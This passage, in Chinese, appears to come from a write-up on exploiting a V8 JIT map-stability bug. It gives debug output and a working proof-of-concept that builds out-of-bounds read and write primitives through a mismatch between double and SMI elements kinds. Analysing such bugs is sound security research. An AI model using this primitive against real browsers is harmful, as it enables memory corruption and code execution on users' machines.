var x = new Array(1);
x.fill(1);
%DebugPrint(x);
DebugPrint: 0x3c6308109675: [JSArray]
 - map: 0x3c63082c3ab9 <Map(HOLEY_SMI_ELEMENTS)> [FastProperties]
...
0x3c63082c3ab9: [Map]
 - type: JS_ARRAY_TYPE
...
 - transitions #1: 0x3c630828c621 <TransitionArray[4]>Transition array #1:
     0x3c6308005245 <Symbol: (elements_transition_symbol)>: (transition to PACKED_DOUBLE_ELEMENTS) -> 0x3c63082c3ae1 <Map(PACKED_DOUBLE_ELEMENTS)>
```

正如你所看到的，x的map已经被插入了PACKED_DOUBLE_ELEMENTS的transitions。而这个问题可以通过给数组添加一个属性来轻松解决：

```cpp
var x = new Array(1);
x.fill(1);
x.a = 1;
%DebugPrint(x);
DebugPrint: 0x3c6308109675: [JSArray]
 - map: 0x3c63082c7939 <Map(HOLEY_SMI_ELEMENTS)> [FastProperties]
...
0x3c63082c7939: [Map]
 - type: JS_ARRAY_TYPE
...
 - stable_map
...
```

这给了x一个stable的map，同时还允许我们transitions到一个有`double element`的数组：

```cpp
x[0] = 1.1;
%DebugPrint(x);
DebugPrint: 0x3c6308109675: [JSArray]
 - map: 0x3c63082c7961 <Map(HOLEY_DOUBLE_ELEMENTS)> [FastProperties]
...
0x3c63082c7961: [Map]
...
 - elements kind: HOLEY_DOUBLE_ELEMENTS
...
 - stable_map
```

而旧的map（0x3c63082c7939）状态变为unstable：

```cpp
job 0x3c63082c7939
0x3c63082c7939: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: HOLEY_SMI_ELEMENTS
 - unused property fields: 2
 - enum length: invalid
 - back pointer: 0x3c63082c3ab9 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x3c6308294551 <Cell value= 0>
 - instance descriptors (own) #2: 0x3c630810ae3d <DescriptorArray[2]>
 - prototype: 0x3c630828c139 <JSArray[0]>
 - constructor: 0x3c630828bed5 <JSFunction Array (sfi = 0x3c630820fd95)>
 - dependent code: 0x3c63080021b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

所以从现在开始，我将使用这些数组来代替。随着这些技术细节的解决，可以构建出一个实现数据越界读写的poc：

```javascript
function foo(b) {
  x = b;
}

function oobRead() {
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

//All have same map, SMI elements, MapA
var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;

var x = arr0;

var arr = new Array(30); arr.fill(4); arr.a = 1;

//Optimzie foo
for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}
//x now has double elements, MapB
x[0] = 1.1;
//optimize oobRead
for (let i = 0; i < 20000; i++) {
  oobRead();
}
//optimize oobWrite
for (let i = 0; i < 20000; i++) oobWrite(1.1);
//Restore map back to MapA, with SMI elements
foo(arr);
var z = oobRead(); 
oobWrite(0x41414141);
```

在优化oobRead和oobWrite前，x的map为MapB并且其Element kind为`HOLEY_DOUBLE_ELEMENTS`。这意味着，例如，当在oobWrite中写到第24个元素(x[24])时，jit代码访问数组元素的偏移会基于`HOLEY_DOUBLE_ELEMENTS`来计算（也就是8），所以例子中的偏移计算会是8*24。然而在我们使用foo函数将x设置为arr时，arr的Element kind是`HOLEY_SMI_ELEMENTS`类型，它的宽度为4，这意味着其backing store（也就是elements）总共才4 * 30 字节长，这比8 * 24小得多。因此对偏移量8*24处的写入将会是一个越界的写入。

利用该写入将一个数组的长度改为很大的值，就可以进行后续的利用了。
